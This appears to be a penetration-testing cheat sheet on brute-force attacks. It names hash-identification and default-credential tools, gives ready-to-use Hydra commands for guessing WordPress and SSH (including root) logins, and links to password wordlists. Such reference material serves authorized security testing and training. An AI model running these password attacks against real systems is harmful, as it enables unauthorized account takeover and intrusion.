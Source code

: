 +++
title = 'Brute Force'
+++

## Hash identify

```
# https://github.com/noraj/haiti
haiti hash
```

## Test for default credentials

```
# https://github.com/ztgrace/changeme
./changeme.py example.com
```

```
# https://github.com/x90skysn3k/brutespray
See documentation
```

## Hydra

Hydra is a command-line tool for online password attacks, such as website login pages and ssh.

### General format for website attacks:

```
hydra -L <username list> -p <password list> [host] http-post-form "<path>:<form parameters>:<failed login message>"
```

### Wordpress

Attack WordPress login page with a known username, success parameter S= instead of failure parameter, verbose output:

```
hydra -l [username] -P /usr/share/wordlists/rockyou.txt [host] http-post-form "/wp-admin/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:S=http%3A%2F%2F[host]%2Fwp-admin%2F" -V
```

### SSH

```
# default
hydra -l root -P /usr/share/wordlists/fasttrack.txt [host] ssh

# no standard port
hydra -s 22022 -l root -P /usr/share/wordlists/fasttrack.txt [host] ssh

# with a username wordlist and ports
hydra -s 22022 -L userlist.txt -P /usr/share/wordlists/fasttrack.txt [host] ssh -t 4  -v
``` 



|URl|Description|
|---|---|
|https://nordpass.com/most-common-passwords-list/ | Most used password by nord vpn |
|https://github.com/ihebski/DefaultCreds-cheat-sheet| Default credentials for dozen of applications |
|https://cirt.net/passwords | Default credentials for dozen of applications |
|https://forum.ywhack.com/bountytips.php?password | Default credentials for dozen of applications |
|https://github.com/noraj/pass-station/ | Tool to search for creds|
| ## | ## |
|https://github.com/ignis-sec/Pwdb-Public| Mass list of passwords, based on data |
|https://bit.ly/3nFUfJG | Rockyou list 🤘 |
|https://github.com/1N3/IntruderPayloads| Lists used by burp |
|https://github.com/WillieStevenson/top-100-passwords/blob/master/password-list.txt | Top 100 passwords |
